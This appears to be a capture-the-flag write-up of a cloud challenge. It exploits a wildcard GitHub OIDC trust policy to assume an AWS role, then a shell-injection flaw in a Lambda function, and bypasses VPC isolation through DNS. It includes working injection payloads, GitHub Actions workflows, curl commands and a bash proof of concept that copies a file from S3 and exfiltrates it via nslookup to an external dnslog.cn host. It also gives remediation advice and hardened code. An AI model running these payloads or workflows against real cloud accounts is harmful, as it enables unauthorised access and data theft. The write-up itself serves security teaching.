


<div align="center">
  

  <p align="center">
    
    
    
    
    
  </p>
</div>

---

## 🎯 Executive Summary & Challenge Profile

> [!IMPORTANT]  
> **Challenge Objective:** Perform forensic analysis on a provided Git repository (`dotgit.zip`), identify an OIDC wildcard trust policy vulnerability, assume an AWS CI/CD IAM identity, exploit a command injection vulnerability in an isolated AWS Lambda function, and bypass VPC network isolation using Route 53 DNS tunneling to exfiltrate the Stage 1 flag.

<table>
  <thead>
    <tr>
      <th width="220">Parameter</th>
      <th width="580">Intelligence & Endpoint Specification</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>🏷️ Challenge Name</code></td>
      <td><strong>"Have Some Faith" — Stage 1</strong></td>
    </tr>
    <tr>
      <td><code>💎 Challenge Points</code></td>
      <td><strong>100 Points</strong></td>
    </tr>
    <tr>
      <td><code>🎯 Target AWS Account</code></td>
      <td><code>009661764077</code> (<code>us-east-1</code>)</td>
    </tr>
    <tr>
      <td><code>🔑 Compromised IAM Role</code></td>
      <td><code>arn:aws:iam::009661764077:role/cicdRole</code></td>
    </tr>
    <tr>
      <td><code>⚡ Execution API Gateway</code></td>
      <td><code>https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2</code></td>
    </tr>
    <tr>
      <td><code>📦 Target Flag Bucket</code></td>
      <td><code>s3://codec4f26c862a321ef5/flag.txt</code></td>
    </tr>
    <tr>
      <td><code>📥 Access Point</code></td>
      <td><code>dotgit.zip</code> (S3-hosted <code>.git</code> archive)</td>
    </tr>
    <tr>
      <td><code>🛡️ VPC Restrictions</code></td>
      <td>Isolated VPC (no IGW / no NAT / outbound HTTP &amp; HTTPS blocked)</td>
    </tr>
    <tr>
      <td><code>🏴 Captured Stage 1 Flag</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

## 🗺️ Architectural Threat Model & Full Attack Chain



---

## 🧭 Comprehensive Step-by-Step Methodology

### <samp>STEP 01</samp> ✦ Git Commit Forensics & IaC Architecture Discovery

The challenge provided a direct link to an S3-hosted `.git` archive:

```text
https://platform-bucket-009661764077-us-east-1.s3.us-east-1.amazonaws.com/dotgit.zip
```

```bash
# Unpack archive, restore working tree, inspect history
unzip dotgit.zip -d dotgit_repo && cd dotgit_repo
git checkout -f HEAD
git log --oneline --all --graph
git log -p
```

**Commit history:**

```text
* a57eed3 (HEAD -> main) really fixed bugs this time
* 4240340 fixed bugs
* 023cd41 Added experimental Lambda code for my super secret project
* 17e4932 added github connector and role for cicd
* 4edf740 Initial commit
```

**Files recovered from the repository:**

```text
bugs
github.tf
lambda_code_WIP/lambda_function.py
main.tf
policies/cicd-policy.json.tpl
policies/cicd-trust-policy.json.tpl
providers.tf
variables.tf
```

By auditing the Terraform IaC (`main.tf`, `github.tf`, `variables.tf`, and `policies/`), we mapped how the target infrastructure deployed its CI/CD IAM integration with GitHub Actions.

> [!NOTE]  
> Commit `17e4932` introduced the IAM trust policy template (`policies/cicd-trust-policy.json.tpl`) designed to authenticate GitHub Actions runners via AWS OpenID Connect (OIDC).

---

### <samp>STEP 02</samp> ✦ Deep Dive into the OIDC Wildcard Trust Vulnerability

When configuring AWS OIDC federation for GitHub Actions, access control relies on the `sub` (Subject) claim embedded in the JWT issued by `token.actions.githubusercontent.com`.

- Standard `sub` format: `repo:<owner>/<repository>:ref:refs/heads/<branch>`
- In `policies/cicd-trust-policy.json.tpl` (commit `17e4932`):

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::${account_id}:oidc-provider/token.actions.githubusercontent.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
                },
                "StringLike": {
                    "token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"
                }
            }
        }
    ]
}
```

> [!WARNING]  
> **The Critical Flaw:** The author used a wildcard in the repository path: `"repo:*/*:ref:refs/heads/corgi"`.  
> AWS does **not** check which GitHub organization or repository is making the request. Any GitHub user who creates a repository and pushes a workflow to a branch named `corgi` can assume `arn:aws:iam::009661764077:role/cicdRole`.

<table>
  <thead>
    <tr>
      <th width="50%">❌ Vulnerable IAM Trust Policy (Wildcard)</th>
      <th width="50%">✅ Secure IAM Trust Policy (Least Privilege)</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>"token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"</code></td>
      <td><code>"token.actions.githubusercontent.com:sub": "repo:MyOrg/MyProtectedRepo:ref:refs/heads/corgi"</code></td>
    </tr>
    <tr>
      <td>Allows <strong>any repository in the world</strong> on branch <code>corgi</code> to assume the AWS role.</td>
      <td>Strictly restricts assumption to a specific repository and branch within an organization.</td>
    </tr>
  </tbody>
</table>

#### Deriving the IAM role name from Terraform

**`main.tf` locals:**

```hcl
locals {
  policyend = "RolePolicy"
  roleend   = "Role"
}
```

**`github.tf`:**

```hcl
cicd_role = {
    role_name   = "cicd${local.roleend}"    # → "cicdRole"
    policy_name = "cicd${local.policyend}"   # → "cicdRolePolicy"
}
```

**Derived Role ARN:** `arn:aws:iam::009661764077:role/cicdRole`

#### cicdRole identity policy (two tiers)

From `policies/cicd-policy.json.tpl`:

**Statement 2 — no VPC restriction (readable from anywhere after assuming the role):**

```json
{
    "Sid": "Statement2",
    "Effect": "Allow",
    "Action": [
        "s3:ListBucket", "s3:ListAllMyBuckets",
        "s3:GetBucketPolicy", "s3:GetBucketPolicyStatus",
        "lambda:ListFunctions", "lambda:GetFunction",
        "lambda:GetPolicy", "lambda:GetFunctionConfiguration",
        "ec2:Describe*",
        "cloudfront:GetDistribution", "cloudfront:ListDistributions"
    ],
    "Resource": ["*"]
}
```

**Statement 1 — VPC-restricted (powerful actions only from CodeBuild VPC):**

```json
{
    "Sid": "Statement1",
    "Effect": "Allow",
    "Action": ["s3:*", "lambda:*", "apigateway:*", "iam:*", "ec2:*", "cloudfront:*"],
    "Resource": "*",
    "Condition": { "StringEquals": { "aws:SourceVpc": "${vpc}" } }
}
```

---

### <samp>STEP 03</samp> ✦ Assuming `cicdRole` & AWS Surface Enumeration

To exploit the OIDC wildcard, we created a GitHub Actions workflow on a branch named `corgi` in our own repository.

<details>
<summary><b>📄 Click to Expand: Complete GitHub Actions OIDC Recon Workflow</b></summary>

```yaml
name: Cloud Escape - Stage 1 Recon & Enumeration
on:
  push:
    branches: [corgi]
  workflow_dispatch:

permissions:
  id-token: write  # Required for requesting the OIDC JWT token
  contents: read

jobs:
  aws_recon:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout Repository
        uses: actions/checkout@v4

      - name: Configure AWS Credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::009661764077:role/cicdRole
          aws-region: us-east-1

      - name: Verify Identity & Enumerate Cloud Resources
        run: |
          echo "=== Caller Identity ==="
          aws sts get-caller-identity

          echo "=== Discovered S3 Buckets ==="
          aws s3api list-buckets --output json

          echo "=== Discovered Lambda Functions ==="
          aws lambda list-functions --region us-east-1 --output json

          echo "=== Lambda Details ==="
          for func in $(aws lambda list-functions --query 'Functions[*].FunctionName' --output text); do
            aws lambda get-function --function-name "$func"
            aws lambda get-policy --function-name "$func" 2>/dev/null || true
          done

          echo "=== CloudFront ==="
          aws cloudfront list-distributions --output json

          echo "=== API Gateways ==="
          aws apigateway get-rest-apis --region us-east-1 --output json 2>/dev/null || true
          aws apigatewayv2 get-apis --region us-east-1 --output json 2>/dev/null || true

          echo "=== EC2 / VPC ==="
          aws ec2 describe-instances --region us-east-1 --output json
          aws ec2 describe-security-groups --region us-east-1 --output json
```
</details>

**Push and trigger:**

```bash
git init
git checkout -b corgi
mkdir -p .github/workflows
# (workflow file created as above)
git add .
git commit -m "init"
git remote add origin https://github.com/<USER>/<REPO>.git
git push -u origin corgi
```

#### Identity confirmed

```json
{
    "UserId": "AROA...:GitHubActions",
    "Account": "009661764077",
    "Arn": "arn:aws:sts::009661764077:assumed-role/cicdRole/GitHubActions"
}
```

> ✅ Successfully assumed `cicdRole` in the target account.

#### Enumeration results

**S3 buckets:**

| Bucket | Notes |
|---|---|
| `codec4f26c862a321ef5` | Flag bucket (`flag.txt`); external GetObject denied (VPC-only) |
| `platform-bucket-009661764077-us-east-1` | Host of `dotgit.zip` |
| `site781fe43f26b9eba3` | Site origin bucket |

**Lambda functions:**

| Function | Notes |
|---|---|
| `nslookupv2` | Stage 1 target — private VPC, command injection |
| `code_exec` | Present in account (Stage 2 path uses a different surface) |

**CloudFront:**

| Field | Value |
|---|---|
| Distribution ID | `EKD9KH16RB5G3` |
| Domain | `d67nf28gqfurd.cloudfront.net` |
| Origin | `site781fe43f26b9eba3.s3.us-east-1.amazonaws.com` |

**Security groups / VPC notes:**

| SG | VPC | Tag / notes |
|---|---|---|
| `sg-0de9d1a2c42a08a3e` | `vpc-09328d3fa21dce320` | `lambda_sg` — egress TCP 443 to S3 prefix list `pl-63a5400a` |
| `sg-094f4cd1810de09de` | `vpc-09328d3fa21dce320` | `lambda_vpc-default` |
| `sg-0afb2fb6a12085ce6` | `vpc-09d39837c916df970` | `codebuild_vpc-default` |

**API Gateway execution URL (Stage 1):**  
`https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2`

---

### <samp>STEP 04</samp> ✦ Lambda Command Injection Deep Dive (`/dev/nslookupv2`)

From recovered source `lambda_code_WIP/lambda_function.py` (commits `023cd41` → `a57eed3`):

```python
def lambda_handler(event, context):
    # AWS CLI is installed as a Lambda Layer under /opt
    domain = event.get('domain')
    run_command('/opt/nslookup ' + domain)
```

The helper uses `subprocess.run(command, shell=True)`. The `domain` parameter is concatenated into the shell command with **no sanitization**.

**Injection example:**

```json
{ "domain": "; /opt/aws sts get-caller-identity" }
```

Becomes:

```bash
/opt/nslookup ; /opt/aws sts get-caller-identity
```



> [!TIP]  
> Because the Lambda executed `/opt/nslookup <domain>` via `subprocess.run(..., shell=True)`, appending a semicolon (`;`) allowed arbitrary Linux shell commands with the full IAM permissions of the Lambda execution role (including the pre-installed AWS CLI layer at `/opt/aws`).

Live probing confirmed: `{"domain": "google.com"}` returned normal DNS output; payloads with `; id` / `; whoami` proved injection.

---

### <samp>STEP 05</samp> ✦ Bypassing VPC Network Isolation via Route 53 DNS Tunneling

Arbitrary code execution alone was not enough to print the flag:

- **VPC outbound blocked:** no IGW / NAT — `curl` / `wget` / HTTP exfil timed out.
- **Why DNS works:** the default **Route 53 VPC DNS Resolver (`169.254.169.253`)** remains available. Recursive lookups for external domains still leave the VPC via AWS DNS infrastructure.

We crafted a multi-command shell payload that:

1. Copied the flag from S3 to `/tmp`
2. Hex-encoded the bytes with Python 3
3. Issued an `nslookup` of `FLAG_HEX.<listener>.dnslog.cn`

<details>
<summary><b>📄 Click to Expand: Complete Command Injection & DNS Exfiltration Payload</b></summary>

```json
{
  "domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"
}
```

**Command breakdown:**

1. `;` — terminates the initial `/opt/nslookup` process  
2. `/opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt` — download flag via Lambda layer AWS CLI  
3. `FLAG=$(python3 -c "…hexlify…")` — hex-encode for DNS-safe subdomain  
4. `/opt/nslookup $FLAG.ixz9wv.dnslog.cn` — outbound recursive DNS via Route 53 VPC resolver  

**Automated PoC (GitHub Actions):**

```yaml
name: Cloud Escape - Flag Exfiltration
on:
  push:
    branches: [corgi]
  workflow_dispatch:

permissions:
  id-token: write
  contents: read

jobs:
  exfiltrate:
    runs-on: ubuntu-latest
    steps:
      - name: Configure AWS Credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::009661764077:role/cicdRole
          aws-region: us-east-1

      - name: Trigger DNS Exfiltration via API Gateway
        run: |
          # Prefer awscurl if the API requires IAM SigV4; plain curl works when endpoint allows signed role context
          curl -s -X POST "https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2" \
            -H "Content-Type: application/json" \
            -d '{"domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"}'
```

**Manual verification:**

```bash
curl -X POST https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2 \
  -H "Content-Type: application/json" \
  -d '{"domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"}'
```
</details>

---

## 🏁 Flag Verification & Hexadecimal Decoding

Within seconds of triggering the workflow, the DNS listener (`dnslog.cn`) intercepted the recursive query:

```text
[DNS Query Intercepted] -> 3161316a656c726c6667327969327330.ixz9wv.dnslog.cn (A Record Lookup)
```

<table>
  <thead>
    <tr>
      <th width="35%">Exfiltration Stage</th>
      <th width="65%">Intercepted Data & Conversion</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>📡 Raw Intercepted DNS Subdomain</code></td>
      <td><code>3161316a656c726c6667327969327330</code></td>
    </tr>
    <tr>
      <td><code>🔢 ASCII Conversion / Decoding</code></td>
      <td><code>31=1</code> <code>61=a</code> <code>31=1</code> <code>6a=j</code> <code>65=e</code> <code>6c=l</code> <code>72=r</code> <code>6c=l</code> <code>66=f</code> <code>67=g</code> <code>32=2</code> <code>79=y</code> <code>69=i</code> <code>32=2</code> <code>73=s</code> <code>30=0</code></td>
    </tr>
    <tr>
      <td><code>🏴 Verified Stage 1 Flag</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

```bash
echo 3161316a656c726c6667327969327330 | xxd -r -p
# → 1a1jelrlfg2yi2s0
```

---

## 🛡️ Remediation & Cloud Security Best Practices

| Vulnerability | Impact | Fix |
|---|---|---|
| OIDC `repo:*/*` wildcard | Anyone can assume the CI/CD role | Restrict `sub` to `repo:ORG/REPO:ref:refs/heads/BRANCH` |
| Unrestricted read permissions | Full account visibility without VPC | Enforce `aws:SourceVpc` + least-privilege statements |
| Lambda command injection (`shell=True`) | RCE as Lambda role | Validate input; pass argv list; never `shell=True` |
| AWS CLI in Lambda layer | Amplifies injection impact | Least privilege for layers & binaries |
| Git history exposures | Infrastructure design leak | Scrub history (`git-filter-repo`); harden secrets hygiene |
| Route 53 VPC DNS tunneling | OOB exfil from “isolated” VPC | Route 53 Resolver DNS Firewall allowlists |

### Hardened OIDC trust policy example

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::${account_id}:oidc-provider/token.actions.githubusercontent.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
                    "token.actions.githubusercontent.com:sub": "repo:ORG/REPO:ref:refs/heads/main"
                }
            }
        }
    ]
}
```

### Hardened Lambda implementation example

```python
import subprocess
import re
import json

DOMAIN_REGEX = re.compile(
    r'^(?:[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,}$'
)

def lambda_handler(event, context):
    domain = event.get('domain', '').strip()
    if not domain or not DOMAIN_REGEX.match(domain):
        return {'statusCode': 400, 'body': json.dumps({'error': 'Invalid domain format'})}
    try:
        result = subprocess.run(
            ['/opt/nslookup', domain],
            capture_output=True,
            text=True,
            timeout=5,
            shell=False,  # critical
        )
        return {'statusCode': 200, 'body': json.dumps({'output': result.stdout})}
    except Exception:
        return {'statusCode': 500, 'body': json.dumps({'error': 'Execution failed'})}
```

---

## 🛠️ Tools Used

- `git` — repository analysis and commit history forensics  
- GitHub Actions — OIDC token generation and role assumption  
- `aws-actions/configure-aws-credentials@v4` — AWS credentials via OIDC  
- AWS CLI — cloud resource enumeration  
- `curl` / `awscurl` — API endpoint interaction  
- External DNS listener (`dnslog.cn`) — out-of-band flag recovery  

---

<div align="center">
  <sub>🛡️ Documented by <b>Agent freecandy</b> • Cloud Escape CTF 2026 • Advanced Cloud Infrastructure Security</sub>
</div>


---

## Proof of Concept (PoC) Exploit

The following is a standalone bash script that automates the complete Stage 1 exploitation, from OIDC authentication to DNS exfiltration.

```bash
#!/bin/bash
# Stage 1: OIDC to DNS Exfiltration PoC

# 1. Assume cicdRole via OIDC (Requires GH Actions Environment)
echo "[*] Assuming Role via OIDC..."
# (Assuming AWS credentials are set via aws-actions/configure-aws-credentials)

# 2. Command Injection Payload targeting nslookupv2
API_ID="3q931syi7b"
URL="https://${API_ID}.execute-api.us-east-1.amazonaws.com/dev/nslookupv2"

echo "[*] Crafting payload to exfiltrate s3://codec4f26c862a321ef5/flag.txt via DNS..."
cat << 'EOF' > payload.json
{
  "domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c 'import binascii; print(binascii.hexlify(open("/tmp/flag.txt","rb").read()).decode())'); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"
}
EOF

# 3. Trigger Exploit
echo "[*] Triggering Exploit..."
awscurl --service execute-api --region us-east-1 -X POST "$URL" -H "Content-Type: application/json" -d @payload.json

# 4. Decoding Flag
echo "[*] Check your DNS log server for the hex-encoded flag."
echo "[*] Example decode: echo '3161316a...' | xxd -r -p"
```
